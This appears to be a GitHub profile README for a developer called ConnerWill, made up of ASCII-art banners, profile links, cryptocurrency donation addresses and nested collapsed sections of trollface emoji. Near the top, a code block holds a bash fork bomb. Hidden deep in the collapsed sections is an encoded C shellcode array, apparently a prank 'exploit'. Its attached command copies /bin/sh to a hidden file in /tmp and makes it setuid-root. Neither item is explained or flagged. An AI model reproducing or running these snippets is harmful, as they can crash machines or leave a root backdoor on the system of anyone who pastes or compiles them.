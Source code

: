 <div align="right"> 
 <sample>
  <b>&Copf;&empty;&Nopf;&Nopf;&Sigma;&Ropf;</b>
 </sample>
 :milky_way:
	
	
![connerwill.com](https://img.shields.io/website?down_color=%23ff0000&down_message=offline&label=connerwill.com&up_color=%2300ff00&up_message=online&url=https%3A%2F%2Fconnerwill.com)

</div>
<div align="right"> 

```diff
+                                                                                                                      
```

</div>
<div align="center">

<!--
```pwsh
 ____                                           __      __       ___    ___      
/\  _`\                                        /\ \  __/\ \  __ /\_ \  /\_ \     
\ \ \/\_\    ___     ___     ___      __   _ __\ \ \/\ \ \ \/\_\\//\ \ \//\ \    
 \ \ \/_/_  / __`\ /' _ `\ /' _ `\  /'__`\/\`'__\ \ \ \ \ \ \/\ \ \ \ \  \ \ \   
  \ \ \L\ \/\ \L\ \/\ \/\ \/\ \/\ \/\  __/\ \ \/ \ \ \_/ \_\ \ \ \ \_\ \_ \_\ \_ 
   \ \____/\ \____/\ \_\ \_\ \_\ \_\ \____\\ \_\  \ `\___x___/\ \_\/\____\/\____\
    \/___/  \/___/  \/_/\/_/\/_/\/_/\/____/ \/_/   '\/__//__/  \/_/\/____/\/____/
```
-->

```bash
:(){ :|: & };:	

 ▄████████  ▄██████▄  ███▄▄▄▄   ███▄▄▄▄      ▄████████    ▄████████  ▄█     █▄   ▄█   ▄█        ▄█       
███    ███ ███    ███ ███▀▀▀██▄ ███▀▀▀██▄   ███    ███   ███    ███ ███     ███ ███  ███       ███       
███    █▀  ███    ███ ███   ███ ███   ███   ███    █▀    ███    ███ ███     ███ ███▌ ███       ███       
███        ███    ███ ███   ███ ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀ ███     ███ ███▌ ███       ███       
███        ███    ███ ███   ███ ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ███     ███ ███▌ ███       ███       
███    █▄  ███    ███ ███   ███ ███   ███   ███    █▄  ▀███████████ ███     ███ ███  ███       ███       
███    ███ ███    ███ ███   ███ ███   ███   ███    ███   ███    ███ ███ ▄█▄ ███ ███  ███▌    ▄ ███▌    ▄ 
████████▀   ▀██████▀   ▀█   █▀   ▀█   █▀    ██████████   ███    ███  ▀███▀███▀  █▀   █████▄▄██ █████▄▄██ 
                                                         ███    ███                  ▀         ▀         
``` 
</div>

<div align="center">
  <sample>
   <b><a href="https://connerwill.com">╔════════════════════════════════════════╗</a></b>
  </sample>
  <br>
  <span>
  <kbd>
   <a href="https://connerwill.com"><kbd> &#x239A; <kbd> 〠 </kbd></kbd></a>
   <a href="https://github.com/ConnerWill"><kbd> GitHub </kbd></a>
   <a href="https://gitlab.com/ConnerWill"><kbd> GitLab </kbd></a>
   <a href="https://github.com/ConnerWill?tab=repositories"><kbd> Repositories </kbd></a>
   <a href="https://gist.github.com/ConnerWill"><kbd> Gists </kbd></a>
   <a href="https://dampsock.com"><kbd> dampsock.com </kbd></a>
   <a href="https://connerwill.com"><kbd> connerwill.com </kbd></a>
   <a href="https://connerwill.com"><kbd><kbd> &#x274D; </kbd> &#x2672; </kbd></a>
  </kbd>
 </span>
<div align="center">
 <a href="https://connerwill.com/content/misc/void.html"><img src="https://bingimages.herokuapp.com/unsplash1" width="100%" height="50%"></a>
</div>
<div align="center">
 <span> 
  <kbd>
   <a href="https://connerwill.com"><kbd> &#x2748; <kbd> ☻ </kbd></kbd></a>
   <a href="https://github.com/ConnerWill"><kbd> GitHub </kbd></a>
   <a href="https://gitlab.com/ConnerWill"><kbd> GitLab </kbd></a>
   <a href="https://github.com/ConnerWill?tab=repositories"><kbd> Repositories </kbd></a>
   <a href="https://gist.github.com/ConnerWill"><kbd> Gists </kbd></a>
   <a href="https://dampsock.com"><kbd> dampsock.com </kbd></a>
   <a href="https://connerwill.com"><kbd> connerwill.com </kbd></a>
   <a href="https://connerwill.com"><kbd><kbd> &#x262C; </kbd> &#x26C0; </kbd></a>
  </kbd>
 </span>
 <br>
  <sample>
   <b><a href="https://connerwill.com">╚════════════════════════════════════════╝</a></b>
  </sample>
<br><br>
</div>
</div>
<div align="center">
	
 ```console
 ▄████▄   ▒█████   ███▄    █  ███▄    █ ▓█████  ██▀███   █     █░ ██▓ ██▓     ██▓    
▒██▀ ▀█  ▒██▒  ██▒ ██ ▀█   █  ██ ▀█   █ ▓█   ▀ ▓██ ▒ ██▒▓█░ █ ░█░▓██▒▓██▒    ▓██▒    
▒▓█    ▄ ▒██░  ██▒▓██  ▀█ ██▒▓██  ▀█ ██▒▒███   ▓██ ░▄█ ▒▒█░ █ ░█ ▒██▒▒██░    ▒██░    
▒▓▓▄ ▄██▒▒██   ██░▓██▒  ▐▌██▒▓██▒  ▐▌██▒▒▓█  ▄ ▒██▀▀█▄  ░█░ █ ░█ ░██░▒██░    ▒██░    
▒ ▓███▀ ░░ ████▓▒░▒██░   ▓██░▒██░   ▓██░░▒████▒░██▓ ▒██▒░░██▒██▓ ░██░░██████▒░██████▒
▒ ░▒ ▒  ░░ ▒░▒░▒░ ░ ▒░   ▒ ▒ ░ ▒░   ▒ ▒ ░░ ▒░ ░░ ▒▓ ░▒▓░░ ▓░▒ ▒  ░▓  ░ ▒░▓  ░░ ▒░▓  ░
░ ▒ ▒     ░ ▒ ▒░ ░ ░░   ░ ▒░░ ░░   ░ ▒░ ░ ░  ░  ░▒ ░ ▒░  ▒ ░ ░   ▒ ░░ ░ ▒  ░░ ░ ▒  ░
░ ░        ░ ░ ░ ▒     ░   ░ ░    ░   ░ ░    ░     ░░   ░   ░   ░   ▒ ░  ░ ░     ░ ░   
░ ░          ░ ░           ░          ░    ░  ░   ░         ░     ░      ░  ░    ░  ░
░ ░                                                                                    
```
<!--

 ```lua
 --:::::::::::::::::::::;;;:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :,######':'#######''##'::'##'##::: ##'########'########:::'##:::::'##'####;##':::::'##';;::::
 '##'..'##;##'..' ##;###;''##:###': ##:##.....:'##.... ##:::##:;##: ##. ##::##':::::'##'::::::
 '##'::..:'##'::' ##:####''##:####' ##:##::::::'##:::: ##:::##: ##: ##: ##::##::::::'##:::::::
 '##':::::'##'::' ##:## ## ##:##'## ##:######::'########::::##: ##: ##: ##::##::::::'##'::::::
 '##':::::'##'::' ##:##. ####:##' ####:##...:::'##.. ##:::::##: ##: ##: ##::##::::::'##';:::::
 '##':' ##:##'::' ##:##:. ###:##:' ###:##::::::'##::. ##::::##: ##: ##: ##::##::::::'##':;::::
 :'######'. #######::##::. ##:##::' ##;########:##'::. ##::. ###. ###:'####'########:########:
 --.....:::.......::..::::..:..::::..:........:..:::::..::::...::...::....:........:........::
```
-->

</div>

<div align="right">

```http
+                                                                                                                      
```

</div>


<a href="https://connerwill.com/static/img/xmr-qr-connerwill.com.png"><img src="https://connerwill.com/static/img/xmr.svg" alt="Monero (XMR) icon and wallet QR code" width="2%" height="2%"> XMR</a> :  <code>86tE67soBqFb5fxNGgC4HLdwZXebP42ewfBwfKyMDKvFbgA7T8p4g4T5BBNA9LNbwaVafup973w41PdvCS7bbj6gTNQpCh1</code>

<a href="https://connerwill.com"><img src="https://connerwill.com/static/img/btc.svg" alt="₿" width="2%" height="2%"></a> BTC : <code>bc1qpg5d69n2knsete7vw7f2vqpkg4a0faq9rc6se0</code>

<div align="left">
<details>
<div align="center">
:shipit:
	
<div align="right">
<details>
<div align="center">
:trollface:

<div align="left">
<details>
<div align="center">
 <span>
  $e^x=\sum_{i=0}^\infty \frac{1}{i!}x^i$
  $\frac{n!}{k!(n-k)!} = {n \choose k}$
 </span>

	
<div align="right">
<details>
<div align="center">

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	
:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	
<div align="center">
<details>
	
---
	
<div align="center">
	⃢	⃢	⃢
	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
		⃢	⃢
	⃢	⃢	⃢:trollface:⃢
:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::tro
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:
	⃢
	⃢
	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface:llface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:
	⃢
	⃢
	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:	⃢:trollface:	⃢:trollface::⃢:trollface:
:trollface:	:⃢:trollface:	⃢
	⃢
	⃢	⃢	⃢:trollface:⃢
:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:	
	⃢	⃢	⃢
:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:
	⃢
	⃢
	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface::⃢:trollface:	⃢:trollface:	
	⃢	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢	⃢
	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:	
	⃢:trollface:	
	⃢:trollface:	
	⃢
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:
	⃢
	⃢
	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface:
	⃢:trollface:	⃢
	⃢
	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:	

```hex
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;	
```
	
</div>

---
	
<br><br>
	
<details>
<sample>
<div align="center">
<p>
 <a href="https://github.com/ConnerWill">
  <img align="center" height="200" src="https://github-readme-stats.vercel.app/api?username=ConnerWill&&show_icons=true&theme=tokyonight&&v=5"/>
 </a>
 <a href="https://github.com/ConnerWill">
  <img align="center" height="200" src="https://github-readme-stats.vercel.app/api/top-langs/?username=ConnerWill&langs_count=3&theme=tokyonight&hide="/>
 </a>
</p>
</sample>
	
---
	
</div>
</div>
</div>
</details>
</details>
</div>
</div>
</details>
</details>
</details>
</details>
</details>
</details>
</div>
</div>
